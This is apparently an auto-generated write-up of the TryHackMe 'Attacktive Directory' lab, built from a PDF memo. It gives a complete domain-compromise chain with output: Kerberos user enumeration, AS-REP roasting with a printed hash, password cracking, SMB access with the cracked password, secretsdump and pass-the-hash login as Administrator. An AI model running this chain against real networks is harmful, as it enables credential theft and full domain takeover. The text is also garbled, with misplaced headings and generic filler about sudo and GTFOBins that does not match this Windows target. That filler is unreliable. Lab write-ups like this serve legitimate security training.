

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 53/tcp   open  domain, 80/tcp   open  http, 88/tcp   open  kerberos-sec, 135/tcp  open  msrpc, 139/tcp  open  netbios-ssn, 389/tcp  open  ldap |
| Primary Entry Vector      | web, smb attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap
```bash
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
enum4linux -A $ip
~/tools/kerbrute userenum -d spookysec.local --dc $ip userlist.txt -t 100
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt
smbmap -d spookysec.local -u svc-admin -H $ip -p management2005 -r
john --wordlist=passwordlist.txt hash.txt
smbmap -d spookysec.local -u svc-admin -H $ip -p management2005 -r backup -A backup_credentials.txt
evil-winrm -i $ip -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

### 抽出画像

画像抽出なし（PDF内に有効な埋め込み画像なし）

### 抽出メモ（先頭120行）
```bash
Attacktive Directory
July 30, 2024 2:43

wrightup
https://yawaraka-sec.com/attacktive-directory-thm/
reference
https://gintachan.com/tryhackme-services-writeup/
https://qiita.com/v_avenger/items/78b323d5e30276a20735
https://qiita.com/sanyamarseille/items/c2816b70956884317096
AD exploration and compromise
# Check free ports with beginner nmap
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-30 02:34 JST
Nmap scan report for 10.10.95.254
Host is up (0.24s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-29 17:34:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-07-29T17:35:03+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2024-07-28T15:48:39
|_Not valid after:  2025-01-27T15:48:39
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-29T17:34:54+00:00
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-07-29T17:34:57
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.88 seconds
#It seems better to use enum4linux for domains where 139 and 445 are open.
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Attacktive_Directory]
└─$ enum4linux -A $ip
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Jul 30 02:42:34 2024
OneNote
1/6
=========================================( Target Information )=========================================
Target ........... 10.10.95.254
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
============================( Enumerating Workgroup/Domain on 10.10.95.254 )============================
[E] Can't find workgroup/domain
===================================( Session Check on 10.10.95.254 )===================================
[+] Server 10.10.95.254 allows sessions using username '', password ''
================================( Getting domain SID for 10.10.95.254 )================================
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
enum4linux complete on Tue Jul 30 02:42:51 2024
#Enumerate domain users
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Attacktive_Directory]
└─$ ~/tools/kerbrute userenum -d spookysec.local --dc $ip userlist.txt -t 100
__             __               __
/ /_____  _____/ /_  _______  __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 07/31/24 - Ronnie Flathers @ropnop
#Scan based on user list
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/Attacktive_Directory]
└─$ python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt
Impacket v0.12.0.dev1+20240725.125704.9f36a10e - Copyright 2023 Fortra
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-
admin@SPOOKYSEC.LOCAL:d9933c8f7c784938d3fc4ad4a063d37e$9247eb1b4be4a3ab0d47080dac7161d0137f7a4513a33a179e31374cb089099e3
c0c1816db07707afe4fcb563a2cc98478fbf0a36c8b43fa823eb34f4b8cf49dfdf6d01bf47db5f7a1b2487735afb9f46b16113463d2d4bb1418cf6da8d928e
ddbb7c540cd53d09b796195b0d9361233da5283d005a042a6e782d6f09615541e7fe6295d77475abe4f4f9352129c16d361dc3965f24cfe5d17c602c213
OneNote
2/6
ee94cfb66e122d8e8e7af59134bb4f54b2b0ce138bf06dcc9e302f628bc98acd7663bc2b827945db65fea91707163e5f89e26e98d0146f9853e51e6a1068
d0d800bbe
[-] User James doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
#Scan SMB with a user with a cracked password
┌──(n0z0㉿LAPTOP-P490FVC2)-[/opt/impacket/examples]
└─$ smbmap -d spookysec.local -u svc-admin -H $ip -p management2005 -r
________  ___      ___  _______   ___      ___       __         _______
/"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
(:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
\___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
__/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
/" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
(_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
https://github.com/ShawnDEvans/smbmap
[\] Checking for open ports...                                                                                     [|] Checking for open ports...
Checking for open ports...                                                                                     [-] Checking for open ports...
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

This command is executed during privilege escalation to validate local misconfigurations and escalation paths. We are looking for delegated execution rights, writable sensitive paths, or credential artifacts. Any positive result is immediately chained into a higher-privilege execution attempt.
```bash
sudo python3 secretsdump.py spookysec.local/backup:backup2517860@$ip
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
https://yawaraka-sec.com/attacktive-directory-thm/
https://gintachan.com/tryhackme-services-writeup/
https://qiita.com/v_avenger/items/78b323d5e30276a20735
https://qiita.com/sanyamarseille/items/c2816b70956884317096
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-29 17:34:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- john
- sudo
- find
- impacket
- evil-winrm
- GTFOBins
